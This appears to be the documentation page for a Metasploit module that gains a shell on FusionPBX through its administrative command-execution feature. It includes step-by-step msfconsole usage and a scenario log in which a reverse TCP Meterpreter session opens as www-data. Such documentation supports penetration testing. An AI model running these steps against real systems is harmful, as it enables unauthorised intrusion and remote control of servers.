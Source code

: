 ## Description

  This module uses administrative functionality available in FusionPBX
  to gain a shell.

  The Command section of the application permits users with `exec_view`
  permissions, or superadmin permissions, to execute arbitrary system
  commands, or arbitrary PHP code, as the web server user.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://www.fusionpbx.com/download
  * https://github.com/fusionpbx/fusionpbx/releases


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>` (default: `admin`)
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

### TARGETURI

  The base path to FusionPBX (default: `/`)

### USERNAME

  The username for FusionPBX (default: `admin`)

### PASSWORD

  The password for FusionPBX


## Scenarios

  ```
  msf > use exploit/unix/webapp/fusionpbx_exec_cmd_exec 
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set username admin
  username => admin
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set password PXRtwZqSkvToC4gc
  password => PXRtwZqSkvToC4gc
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (PHP In-Memory)
     1   Automatic (Unix In-Memory)
     2   Automatic (Linux Dropper)


  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] Authenticated as user 'admin'
  [*] Sending payload (1115 bytes) ...
  [*] Sending stage (38288 bytes) to 172.16.191.214
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.214:60772) at 2019-11-01 19:25:43 -0400

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
  ```

